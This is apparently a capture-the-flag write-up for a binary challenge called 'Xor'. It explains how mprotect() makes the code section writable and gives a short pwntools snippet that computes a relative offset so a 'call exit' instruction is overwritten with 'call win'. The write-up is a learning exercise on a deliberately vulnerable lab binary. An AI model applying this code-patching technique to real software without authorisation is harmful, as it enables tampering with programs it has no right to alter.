# Xor Writeup

The challenge makes use of mprotect() which gives us the permissions to write .text

Knowing that the call instruction jumps at the from the instruction end (example):

```asm
000a call func # call func equals 
000b           # jmp rip + (000e-000a)
000c
000d
000e .func

```
It doesent really matter that PIE is enabled either.

We can just overwrite call exit with call win.
To do so:

```py
winAddr = 0xA21
patchAddr = 0xAC8

winCall = asm(f'''call ${hex(winAddr-patchAddr)}''')
winCall = u64(winCall.ljust(8,b'\x00'))
```

which calculates the offset from the current instruction to the right instruction.
Online i found similiar solutions which do the math by themselves, patching the binary and, calculating the offset automatically, i couldn't understand it that way so I did it manually.